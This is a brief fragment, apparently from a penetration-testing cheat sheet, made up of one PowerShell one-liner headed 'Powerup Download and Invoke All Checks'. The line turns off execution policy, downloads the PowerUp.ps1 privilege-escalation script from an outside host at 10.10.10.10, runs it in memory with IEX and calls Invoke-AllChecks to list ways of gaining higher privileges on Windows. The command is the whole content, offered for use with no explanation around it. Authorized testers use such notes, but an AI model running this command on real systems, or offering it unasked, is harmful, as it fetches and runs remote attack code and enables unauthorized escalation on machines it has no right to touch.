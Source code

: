 Powershell

Powerup Download and Invoke All Checks:

~~~PowerShell
powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Windows/Powershell/PowerUp.ps1'); Invoke-AllChecks”
~~~

